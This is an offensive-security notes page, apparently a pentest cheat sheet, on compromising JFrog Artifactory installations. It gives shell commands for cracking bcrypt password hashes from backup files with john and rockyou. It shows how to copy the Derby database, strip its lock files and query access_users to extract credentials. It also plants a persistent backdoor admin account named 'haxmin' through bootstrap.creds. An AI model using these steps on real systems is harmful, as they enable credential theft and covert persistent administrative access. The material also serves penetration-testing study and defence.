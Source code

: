 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Artifactory
---
```


<span style="font-size: 35px; color:red"><b>Artifactory</b></span>

<span style="color:red">Binary Repository Manager</span> that stores software packages and other binaries installed in <span style="color:red">/opt/jfrog</span>. If it's running, it will run as webserver on port 8082 locally or port 8081 remotely.
To prevents developers from getting untrusted or unstable binaries directly from the Internet.

To Start:
```shell
sudo /opt/jfrog/artifactory/app/bin/artifactoryctl start
```

To see whether an Artifactory repo is running on the system:
```shell
ps aux | grep artifactory
```

Login page at <span style="color:red">http://<domain>:8082/</span>.
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Credentials</b></span>
The open-source version of Artifactory creates database backups for the user accounts at /<Artifactory_Folder>/var/backup/access in JSON format.
The password is in bcrypt format and can be cracked as follows:
```shell
sudo john derbyhash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
&nbsp;

---
&nbsp;

<span style="font-size: 25px; color:white"><b>Compromising Artifactory Database</b></span>
If there are no backup files available, we can access the database itself or attempt to copy it and extract the hashes manually.
Copy the database to a temporary location and unlock it:
```shell
sudo cp -r /opt/jfrog/artifactory/var/data/access/derby /tmp/hackeddb
sudo chmod 755 /tmp/hackeddb/derby
sudo rm /tmp/hackeddb/derby/*.lck
```

If it's using Apache's Derby, install Apache's derby tools. <span style="color:red">ij</span> tool allows you to handle the database and query it:
```shell
sudo /opt/jfrog/artifactory/app/third-party/java/bin/java -jar /opt/derby/db-derby-10.15.1.3-bin/lib/derbyrun.jar ij
```
From there:
```shell
select * from access_users;
```
and you'll see the passwords.
&nbsp;

---
&nbsp;

<span style="font-size: 25px; color:white"><b>Adding a Secondary Artifactory Admin Account</b></span>
This method requires write access to the /opt/jfrog/artifactory/var/etc/access folder and the ability to change permissions on the newly-created file, which usually requires _root_ or _sudo_ access.
In there, create a `bootstrap.creds` like so:
```shell
haxmin@*=haxhaxhax
```
creating a new user <span style="color:red">haxmin</span> with password <span style="color:red">haxhaxhax</span>. Set permissions to 600:
```shell
sudo chmod 600 /opt/jfrog/artifactory/var/etc/access/bootstrap.creds
```
Now reboot the process:
```shell
sudo /opt/jfrog/artifactory/app/bin/artifactoryctl stop
sudo /opt/jfrog/artifactory/app/bin/artifactoryctl start
```

To check if everything went smooth:
```shell
sudo grep "Create admin user" /opt/jfrog/artifactory/var/log/console.log
```
